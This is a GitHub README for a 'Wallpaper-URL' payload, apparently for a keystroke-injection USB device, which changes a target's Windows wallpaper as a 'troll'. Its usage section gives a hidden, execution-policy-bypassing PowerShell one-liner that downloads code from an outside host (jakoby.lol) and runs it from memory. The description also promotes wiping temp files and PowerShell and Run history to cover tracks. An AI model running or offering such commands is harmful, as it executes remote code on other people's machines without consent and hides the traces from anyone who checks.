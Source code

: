 
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Wallpaper-URL

This payload will download an image from any URL and set it as the target's wallpaper. 

## Description

Use this program to troll your friends. Find any image online and grab the URL and insert it into the PS1 script. 
Run this payload and step away. Once a mouse movement is detected, their wallpaper will change right in front of their eyes.
Lastly, to clean up your tracks behind you, the tmp folder will be emptied and the PowerShell and run box history will be wiped.


## Getting Started

### Dependencies

* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
* Place your images URL in the $url variable
```
powershell -w h -NoP -NonI -Exec Bypass $url='https://mblogthumb-phinf.pstatic.net/20160113_96/hamini91_1452688891338spXNO_JPEG/20160113_213226.png?type=w800';irm jakoby.lol/pkw | iex
```

<p align="right">(<a href="#top">back to top</a>)</p>
